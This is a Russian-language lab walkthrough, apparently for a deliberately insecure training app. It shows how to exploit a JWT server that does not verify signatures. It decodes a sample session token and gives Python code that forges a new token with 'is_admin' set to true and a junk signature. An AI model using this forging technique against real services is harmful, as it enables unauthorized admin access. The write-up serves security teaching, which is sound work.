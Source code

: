 ## Эксплуатация (unverified token problem)

### Шаг 1

Сначала необходимо получить JWT токен. Для этого необходимо залогиниться на http://jwt_insecure.lab/login (user:pass).

В session cookie сервер передает JWT токен, пример: 
```
session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9.r2JjnalFCyz14WuyIukEpocbfoNcO9HcV-28TUHgSvc;
```
JWT токен:
- Header: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9
- Payload: eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9
- Signature: r2JjnalFCyz14WuyIukEpocbfoNcO9HcV-28TUHgSvc

Для наглядности идем [сюда](https://jwt.io/) и декодируем Header и Payload из JWT токена. Результат:

- Header
```json
{
  "typ": "JWT",
  "alg": "HS256"
}
```
- Payload
```json
{
  "username": "user",
  "is_admin": false
}
```

### Шаг 2
 
Генерируем новый JWT токен, у которого третья часть (Signature) абсолютно любая. 
Для этого можно использовать следующий код для Python 3

```python
import base64

def b64urlencode(data):
    return base64.b64encode(data.encode('ascii')).decode('ascii').replace('+', '-').replace('/', '_').replace('=', '')

print("%s.%s.%s" % (
    b64urlencode("{\"typ\":\"JWT\",\"alg\":\"RS256\"}"), # Header
    b64urlencode("{\"username\":\"user\",\"is_admin\":true}"), # Payload
    b64urlencode("secret_signature") # Some signature, not important
    )
)
```
